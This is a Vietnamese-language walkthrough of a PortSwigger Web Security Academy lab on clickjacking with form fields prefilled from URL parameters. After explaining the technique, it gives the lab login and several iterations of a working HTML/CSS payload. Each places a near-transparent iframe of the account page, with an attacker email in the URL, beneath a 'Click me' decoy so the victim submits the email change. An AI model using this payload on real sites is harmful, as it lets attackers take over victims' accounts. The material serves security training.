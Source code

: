 # Clickjacking with prefilled form input

**Tấn công clickjacking với form đã được điền sẵn** là một kỹ thuật tấn công khai thác cách các trang web xử lý dữ liệu đầu vào của form thông qua tham số GET trong URL. Dưới đây là cách hoạt động của kiểu tấn công này:

1. **Form cho phép điền trước dữ liệu qua GET param**

- Một số trang web cho phép tự động điền trước dữ liệu vào các trường trong form bằng cách sử dụng tham số GET trong URL.

- Ví dụ: *https://example.com/form?name=John&email=john@example.com* sẽ tự động điền các trường "name" và "email" trong form trên trang.

2. **Tận dụng URL chứa dữ liệu của attacker**

- Vì các tham số GET là một phần của URL, kẻ tấn công có thể sửa đổi URL để chứa dữ liệu theo ý mình, như các thông tin độc hại hoặc thông tin mà chúng muốn người dùng vô tình gửi đi.

3. **Overlay nút "submit" trong giao diện giả mạo**

- Attacker tạo 1 website giả mạo (decoy site) với giao diện thu hút người dùng.

- Sau đó, chúng nhúng trang web mục tiêu (với form đã được điền sẵn dữ liệu từ URL) vào trong một **iframe ẩn**.

- Nút "submit" của form được căn chỉnh chính xác để nằm dưới một nút hoặc khu vực nào đó trên giao diện giả mạo.

4. **Người dùng vô tình gửi form**

- Khi người dùng tương tác với giao diện của trang web giả mạo, họ vô tình nhấn nút "submit" của form trên trang web mục tiêu mà không hề hay biết.

- Điều này dẫn đến việc gửi dữ liệu mà kẻ tấn công đã chuẩn bị trước.

5. **Biến thể**

- Một số trang web yêu cầu người dùng phải nhập dữ liệu trước khi gửi form. Kẻ tấn công vẫn có thể sử dụng phương pháp tương tự, miễn là form cho phép điền dữ liệu trước qua URL.

Kiểu tấn công này kết hợp việc sử dụng tham số GET để điền sẵn dữ liệu vào form và clickjacking để người dùng vô tình gửi form chứa dữ liệu độc hại hoặc không mong muốn. Đây là một ví dụ khác của việc lợi dụng lỗ hổng giao diện để thao túng hành vi của người dùng.

# Lab: Clickjacking with form input data prefilled from a URL parameter
![img](7)

### Web page
![img](8)

### Solution

Log in vào account được cấp wiener:peter:

![img](9)

Để giải quyết bài lab, tiếp tục cần sử dụng payload có dạng như sau: 

    <style>
        iframe {
            position:relative;
            width:$width_value;
            height: $height_value;
            opacity: $opacity;
            z-index: 2;
        }
        div {
            position:absolute;
            top:$top_value;
            left:$side_value;
            z-index: 1;
        }
    </style>
    <div>Test me</div>
    <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>

Chỉnh sửa payload thành: 

    <style>
        iframe {
            position:relative;
            width:1000px;
            height:500px;
            opacity: 0.1;
            z-index: 2;
        }
        div {
            position:absolute;
            top:515px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0acc004304afd6c481d2434f003f0064.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>

Go to exploit server và copy payload vào phần body: 

![img](10)

Store và View Exploit: 

![img](11)

Căn chỉnh lại payload để Text Click me nằm đè lên Update email button. 

    <style>
        iframe {
            position:relative;
            width:700px;
            height:500px;
            opacity: 0.0001;
            z-index: 2;
        }
        div {
            position:absolute;
            top:445px;
            left: 80px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0acc004304afd6c481d2434f003f0064.web-security-academy.net/my-account?email=attacker111@test.com"></iframe>

![img](12)

Sau khi chỉnh xong, thay giá trị opacity thành 0.00001, thay email và click Deliver exploit to victim.

Solved the lab

![img](13)

